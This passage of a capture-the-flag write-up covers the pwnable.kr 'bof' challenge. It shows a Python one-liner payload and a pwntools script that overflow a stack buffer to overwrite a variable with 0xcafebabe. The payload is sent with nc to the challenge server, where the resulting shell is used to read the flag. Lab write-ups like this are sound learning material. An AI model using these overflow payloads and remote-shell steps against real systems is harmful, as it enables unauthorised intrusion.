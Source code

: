 echo "OVERFLOW"
OVERFLOW
```
-----

Now lets try to exploit this on server,

```
ra@moni:~/PWNPractice/pwnable.kr/bof$ python -c "print('A'*52+'\xbe\xba\xfe\xca')" > exploitdata
ra@moni:~/PWNPractice/pwnable.kr/bof$ cat exploitdata
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
                                                     ra@moni:~/PWNPractice/pwnable.kr/bof$ ^C
ra@moni:~/PWNPractice/pwnable.kr/bof$ (cat exploitdata ;cat) | ./bof
overflow me :
ls
bof  bof.c  bof.md  exploitdata  exploit.py
^C*** stack smashing detected ***: terminated
Aborted (core dumped)

ra@moni:~/PWNPractice/pwnable.kr/bof$
```
Now lets try it,

```
ra@moni:~/PWNPractice/pwnable.kr/bof$ (cat exploitdata ;cat)| nc 128.61.240.205 9000
overflow me :
whoami
bof
cat flag
daddy, I just pwned a buFFer :)
```

Lets do with ```pwntools```

```
ra@moni~/P/p/bof> cat exploit.py
#!/usr/bin/python
from pwn import *
buf=""
buf+="A"*52
buf+=p32(0xcafebabe)
host="128.61.240.205"
port=9000
p=remote(host,port)
#p=process('./bof')
p.send(buf)
p.interactive()
```

Trying it,

```
ra@moni~/P/p/bof> python3 test.py
[+] Opening connection to 128.61.240.205 on port 9000: Done
[*] Switching to interactive mode
$ whoami
$ whoami
bof
$ cat flag
daddy, I just pwned a buFFer :)
```

Done! we got the flag

```Flag: daddy, I just pwned a buFFer :)```

```